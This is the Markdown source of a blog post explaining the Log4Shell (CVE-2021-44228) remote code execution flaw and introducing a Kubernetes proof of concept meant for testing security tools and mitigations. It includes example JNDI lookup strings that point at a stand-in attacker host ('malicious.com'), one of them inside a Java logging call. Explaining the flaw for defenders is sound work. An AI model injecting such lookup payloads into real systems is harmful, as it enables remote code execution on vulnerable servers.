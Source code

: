 ```yaml
---
layout: post
title:  "Log4j 2 vulnerabilities, part II: Kubernetes POC"
tags: [CVE, Log4j, vulnerability, remote code execution, JNDI, CVE-2021-44228, CVE‑2015‑4902, CVE‑2015‑4902, log4shell, RCE, proof of concept, security, cybersecurity, Kubernetes]
category: Security
excerpt_separator: <!--more-->
date: 2022-02-01 22:25:00 +01
image:
  src: /blog/images/featured/hacker-log4j.jpg
  width: 1878   # in pixels
  height: 1106   # in pixels
  alt: A hacker exploits a Log4j 2 server
pin: false
description: "A technical deep dive into the Log4j 2 vulnerability, and experiment with a Kubernetes proof of concept."
---
```


_Sorry, I couldn't resist using a photo of a masked man operating in the dark several computers while standing up. It won't happen again._

In this second post about the Log4j&nbsp;2 vulnerabilities, I will describe **technical details** of the _remote code execution_, as well as present a **proof of concept** using **Kubernetes** that is very easy to deploy, safe to run in a test environment, and very useful to test security tools, fixes, and mitigations.

To learn more about what is Log4j and JNDI, don't forget to visit also my other posts about the Log4j 2 vulnerabilities:
* [Part I: History]({% post_url 2021-12-17-log4j-part-i %}){:target="_blank"}
* [Part II: Kubernetes POC]({% post_url 2022-02-01-log4j-part-ii %}) (this post)
* Part III: Security, fixes, and mitigations (work in progress, stay tuned)

## How does the exploit work

It requires the combination of an old vulnerability/misconfiguration not patched in Java for JNDI, and another old but recently discovered one in Log4J 2.

The **Java Naming and Directory Interface (JNDI)** is an API that allows you to interface with several naming and directory services, like _Lightweight Directory Access Protocol_ (LDAP) or _Remote Method Invocation_ (RMI), to look up data and resources.

For example, using the JNDI string `ldap://malicious.com/object` we are looking into the `malicious.com` domain using the LDAP protocol for information on the resource named "object".

The **Log4j 2** library includes the ability to execute _lookups_, as a way to add values at arbitrary places, using a plugging that implements the `StrLookup` interface. For JNDI, those lookups were enabled by default until version 2.17. When you log a string that contains a dollar sign followed by brackets, what is inside of that will get resolved using JNDI. For example:

```java
log.info("${ldap://malicious.com/a}")
```
